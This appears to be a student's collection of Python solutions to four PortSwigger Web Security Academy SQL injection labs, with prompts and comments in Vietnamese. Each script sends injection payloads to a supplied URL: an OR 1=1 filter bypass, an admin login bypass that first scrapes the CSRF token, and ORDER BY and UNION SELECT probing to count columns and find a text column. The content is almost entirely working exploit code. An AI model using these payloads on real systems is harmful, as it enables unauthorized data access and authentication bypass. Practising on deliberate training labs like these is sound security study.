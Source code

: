 # LAB 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

```python
import requests
print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
url = input("Nhập URL: ").rstrip("/")
target_url = f"{url}/filter?category=Gifts'+OR+1=1+--"

response = requests.get(target_url)
if (response.status_code == 200):
    print("Successful")
else:
    print("Failed")
```

# LAB 2: SQL injection vulnerability allowing login bypass
- Em không có hiểu cái cách lấy CSRF nên e dùng chatGPT để làm cái đoạn đó ạ 🥲
```python
import requests
from bs4 import BeautifulSoup

url = input("Nhập URL: ").rstrip("/")
login_url = f"{url}/login"

session = requests.Session()
response = session.get(login_url)

if response.status_code != 200:
    print(f"Không thể truy cập {login_url}, mã lỗi: {response.status_code}")
    exit()

soup = BeautifulSoup(response.text, "html.parser")
csrf_token = soup.find("input", {"name": "csrf"})["value"]

data = {
    "csrf": csrf_token,
    "username": "admin' OR 1=1--",
    "password": "a"
}

response = session.post(login_url, data=data)
print(f"Request sent to: {login_url}")
if (response.status_code == 200):
    print("Login successful!")
else:
    print("Login failed!")
```

# LAB 3: SQL injection UNION attack, determining the number of columns returned by the query
```python
import requests

print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
url = input("Nhập URL: ").rstrip("/")


i = 1
while True:
    order_url = f"{url}/filter?category=Gifts'+ORDER+BY+{i}+--"
    response = requests.get(order_url)

    if response.status_code == 200:
        i += 1  
    else:
        i -= 1  
        break

null_values = ",+".join(["NULL"] * i)
union_url = f"{url}/filter?category=Gifts'+UNION+SELECT+{null_values}--"

print(f"Payload UNION: {union_url}")
response = requests.get(union_url)

if (response.status_code == 200):
    print("Successful")
else:
    print("Failed")
```

# LAB 4: SQL injection UNION attack, finding a column containing text
```python
import requests

print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
url = input("Nhập URL: ").rstrip("/")
print("Ví dụ: Giá trị được lab cung cấp: aNjdF")
value = input("Giá trị được lab cung cấp: ")

i = 1
while True:
    order_url = f"{url}/filter?category=Gifts'+ORDER+BY+{i}+--"
    response = requests.get(order_url)

    if response.status_code == 200:
        i += 1  
    else:
        i -= 1  
        break

for pos in range(i):
    test_values = ["NULL"] * i  
    test_values[pos] = f"'{value}'"  

    null_values = ",+".join(test_values)
    union_url = f"{url}/filter?category=Gifts'+UNION+SELECT+{null_values}--"
    
    print(f"Thử payload: {union_url}")
    response = requests.get(union_url)
    
    if response.status_code == 200:
        print("Successful")
        break 
```
